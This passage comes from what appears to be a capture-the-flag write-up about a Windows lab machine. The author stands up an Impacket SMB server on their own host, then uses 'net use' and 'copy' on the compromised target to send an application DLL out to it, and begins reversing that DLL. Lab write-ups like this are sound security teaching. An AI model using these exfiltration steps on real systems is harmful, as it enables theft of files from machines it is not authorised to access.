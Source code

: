 I’ll start an SMB server on my host using Impacket’s `smbserver.py`:

    
    
    oxdf@hacky$ smbserver.py -smb2support -username oxdf -password oxdf share `pwd`
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    

Now on Appsantiy I’ll connect to the share and copy the file into it:

    
    
    PS C:\> net use \\10.10.14.6\share /u:oxdf oxdf
    The command completed successfully.
    PS C:\> copy \inetpub\ExaminationPanel\ExaminationPanel\bin\examinationManagement.dll \\10.10.14.6\share\
    

I’ve got the file on my system:

    
    
    oxdf@hacky$ file ExaminationManagement.dll 
    ExaminationManagement.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows
    

#### Reversing

My tool of choice at the moment for reversing .NET binaries is
[DotPeek](https://www.jetbrains.com/decompiler/), though if I wanted to stay
on a Linux VM I could use [ILSpy](https://github.com/icsharpcode/ILSpy).

I’ll open it up, and take a look:

![image-20240301171747299](../img/image-20240301171747299.png)

Looking at `index`, there are functions related to encryption / decryption:

![image-20240301171827229](../img/image-20240301171827229.png)

